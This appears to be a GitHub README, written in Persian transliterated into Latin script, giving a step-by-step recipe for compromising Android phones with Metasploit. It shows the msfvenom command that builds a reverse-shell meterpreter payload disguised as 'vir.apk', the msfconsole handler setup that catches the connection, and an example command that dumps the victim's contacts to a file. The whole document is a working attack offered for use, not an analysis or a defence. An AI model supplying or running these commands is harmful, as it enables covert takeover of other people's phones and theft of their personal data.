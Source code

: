 ### Script `Android-MetaSploit-Sade`

$ Kali linux bayad dar halat root bashad

```bash
sudo -s
```

$ "LHOST" va "LPORT" ra jaygozari va enter mikonim (*=ifcongig / **= port delkhah )

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=* LPORT=** -o /home/kali/Desktop/vir.apk
```


$ sepas abzar metasploit ra ejra mikonim

```bash
msfconsole
```

$ bad az baz shodan abzar metasploit b tartib code haye zer ra mizanim

```bash
use exploit/multi/handler
```

```bash
set payload android/meterpreter/reverse_tcp
```

```bash
options
```

```bash
set LHOST *
```

```bash
set LPORT **
```


$ bad az etmam dobare "options" ra zade ta az set shoan "LHOST" va "LPORT" etmenan hasel konim va sepas :

```bash
options
```

```bash
exploit
```

```bash
help
```

---------------------------------------------------------------------------

`example` : For save contact : `dump_contacts -o /home/kali/Desktop/contact.txt`

